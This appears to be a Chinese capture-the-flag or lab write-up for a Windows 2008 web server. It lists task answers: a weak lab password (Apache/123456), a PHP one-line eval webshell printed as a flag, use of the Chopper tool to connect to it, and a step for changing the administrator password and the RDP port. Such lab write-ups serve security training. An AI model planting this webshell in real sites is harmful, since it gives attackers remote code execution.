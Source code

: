 #### 服务器环境：2008（可以vnc连接，但是不知道密码）

vnc连上有个

### 账号Apache 密码123456

administrator

然后Apache密码是123456

类似于



{% asset_img VNC连接后的用户.jpg  图片加载失败 %}

### 1、使用kali渗透工具，对windows2008/upload文件下的wenjian.php文件进行渗透测试，将触发form的flag作为flag提交

{% asset_img 触发from.png  图片加载失败 %}

```bash
查看文件，wenjian.php

FLAG:action
```

### 2.编写一句话木马，进行post提交，木马密码为admin

```bash
FLAG：<?php @eval($_POST[admin]);?>
```



### 3.将网站下的wwww文件下的wwww.txt文件内容作为flag提交

```bash
FLAG:study
```

{% asset_img wwww.txt图片.png  图片加载失败 %}

### 4.使用菜刀连接一句话木马，将权限作为flag提交

使用whoami

```bash
FLAG：apache
```

{% asset_img 查看获得权限.png  图片加载失败 %}

{% asset_img 查看权限.jpg  图片加载失败 %}



### 5、使用win7桌面下tools文件中的win64工具修改管理员密码，将远程连接端口3389修改为1314将更改的数据作为flag提交

